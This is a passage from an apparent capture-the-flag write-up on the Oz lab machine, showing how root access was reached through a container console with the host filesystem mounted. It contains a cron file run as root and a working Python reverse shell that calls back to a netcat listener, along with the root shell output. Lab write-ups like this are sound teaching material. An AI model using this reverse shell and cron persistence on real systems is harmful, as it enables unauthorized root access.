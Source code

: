 ![1541507912889](https://0xdfimages.gitlab.io/img/1541507912889.png)

Now I hit “Create”, and a new container shows up in the list:

![1546803344751](https://0xdfimages.gitlab.io/img/1546803344751.png)

Now I just click on it, then on Console. Select `/bin/sh` (since alpine
doesn’t have bash) and then Connect:

![1546803535861](https://0xdfimages.gitlab.io/img/1546803535861.png)
![1546803551794](https://0xdfimages.gitlab.io/img/1546803551794.png)
![1546803588056](https://0xdfimages.gitlab.io/img/1546803588056.png)

From there I can get root.txt:

![1541508032559](https://0xdfimages.gitlab.io/img/1541508032559.png)

## root Shell

Obviously I want a shell. There’s a ton of different ways to go from full file
system read/write to shell. I’ll show a two.

### Cron

Create two files:

  * `/rootfs/etc/cron.d/shell`:
    
        SHELL=/bin/sh
    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
    * * * * *   root    python /tmp/shell.py
    

  * `/rootfs/tmp/shell.py`:
    
        import socket
    import subprocess
    import os
      
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("172.17.0.1", 9001))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"])
    

Start listener on Oz, and get callback as root:

    
    
    dorthi@Oz:~$ nc -lnvp 9001
    Listening on [0.0.0.0] (family 0, port 9001)
    Connection from [10.10.10.96] port 9001 [tcp/*] accepted (family 2, sport 44048)
    /bin/sh: 0: can't access tty; job control turned off
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # hostname
    Oz
    